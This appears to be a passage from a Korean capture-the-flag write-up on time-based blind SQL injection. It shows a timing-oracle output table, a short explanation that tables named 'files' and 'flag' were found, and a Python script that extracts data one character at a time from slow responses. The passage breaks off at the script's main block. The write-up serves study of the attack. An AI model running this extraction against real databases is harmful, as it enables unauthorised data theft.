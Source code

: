```
C: q, T: 0:00:00.046779
C: r, T: 0:00:03.427775
C: s, T: 0:00:02.869415
C: t, T: 0:00:02.965769
C: u, T: 0:00:01.839867
C: v, T: 0:00:02.045197
C: w, T: 0:00:00.045391
C: x, T: 0:00:00.038370
C: y, T: 0:00:00.034550
C: z, T: 0:00:00.040592
C: A, T: 0:00:00.038777
C: B, T: 0:00:00.035266
C: C, T: 0:00:02.923604
C: D, T: 0:00:00.043928
C: E, T: 0:00:03.431379
C: F, T: 0:00:03.434538
C: G, T: 0:00:03.437290
C: H, T: 0:00:00.041747
C: I, T: 0:00:02.984453
C: J, T: 0:00:00.044469
C: K, T: 0:00:01.692472
C: L, T: 0:00:00.040697
C: M, T: 0:00:00.034870
C: N, T: 0:00:00.039964
C: O, T: 0:00:01.844985
C: P, T: 0:00:02.975808
C: Q, T: 0:00:00.050623
C: R, T: 0:00:03.314133
C: S, T: 0:00:02.897688
C: T, T: 0:00:03.033871
C: U, T: 0:00:02.356644
C: V, T: 0:00:01.630371
C: W, T: 0:00:00.042096
C: X, T: 0:00:00.042518
C: Y, T: 0:00:00.053940
C: Z, T: 0:00:00.042300
```
코드를 돌려보니 위와 같이 꽤나 정확한 오라클 결과들을 얻을 수 있었고, 위 오라클을 기반으로 테이블 명을 뽑아 보다가 `f`에서 `files`, `flag`라는 테이블이 존재하는 것을 확인하였고, 이를 기반으로 컬럼, 레코드 값을 뽑기로 하였습니다.

```python
import requests
import string
import time

str_list = string.printable.replace('%','').replace('_','')

def execute(s, url, data, Time):
	result = data
	p = 1
	while p == 1:
		start = result
		for s in str_list:
			start_time = time.time()
			requests.get(url.format((result + s + '%').encode().hex()))
			if (time.time() - start_time) > Time:
				result += s
				break
		if start == result:
			p = 0
	return result

if __name__ == '__main__':
	print("[*] Start an exploit")
```